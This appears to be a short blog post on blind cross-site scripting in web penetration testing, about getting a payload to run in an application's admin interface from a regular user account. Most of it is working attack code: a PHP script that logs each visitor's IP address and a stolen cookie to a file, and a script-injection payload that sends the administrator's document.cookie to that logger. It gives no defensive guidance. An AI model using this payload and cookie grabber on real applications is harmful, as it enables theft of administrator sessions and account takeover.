```yaml
---
layout: post
title: Testing XSS in places where you can't see.
description: Some applications, there's more then one interface, one to the users and others to the admin, how do I can found a XSS on the admin area being just a regular user?
keywords: xss, owasp, php, payload, G4mbl3r
disqus: true
tags: [XSS]
categories: Web
---
```

#### The problem
It’s common to you find XSS vulnerabilities during an web pentests, but some times, you’re testing an application that contains more then one interface, like user interface and admin interface, so how you can test for xss on the admin interface being just a regular user? Well it’s kind of simple, but it's not a test to find all the xss on the admin page, for example, when you register on an application, there’s some informations you provide, like, name, address, bio and other things, so we can assume that the admin interface can read this informations, so we can just send XSS payloads, to try to get a XSS exploration, but not a payload like the most common,
{% highlight html %}
<script>alert('XSS')</script>
{% endhighlight %}

So to solve this problem we can use something like this, a php script to log the admin IP and Cookie,
{% highlight php %}
<?php
function getUserIP()
{
    $client  = @$_SERVER['HTTP_CLIENT_IP'];
    $forward = @$_SERVER['HTTP_X_FORWARDED_FOR'];
    $remote  = $_SERVER['REMOTE_ADDR'];
    if(filter_var($client, FILTER_VALIDATE_IP))
    {
        $ip = $client;
    }
    elseif(filter_var($forward, FILTER_VALIDATE_IP))
    {
        $ip = $forward;
    }
    else
    {
        $ip = $remote;
    }
    return $ip;
}
$user_ip = getUserIP();
$cookie = $_GET['cookie'];
$fp = fopen('access.txt', 'a');
fwrite($fp, $user_ip ." : ".$cookie."\n");
fclose($fp);
?>
{% endhighlight %}

But how I'll get the admin cookie? it's simple, just make it on your XSS payload,
{% highlight html %}
<script>var s = document.createElement("script");s.type = "text/javascript";s.src = "http://localhost/grabber.php?cookie="+document.cookie;$("body").append(s);</script>
{% endhighlight %}

Basically this payload, will add a tag script on the page, with you server/script as source, and passing the document.cookie as value of parameter cookie of your script.

Now you can test XSS on interfaces where you can reach.
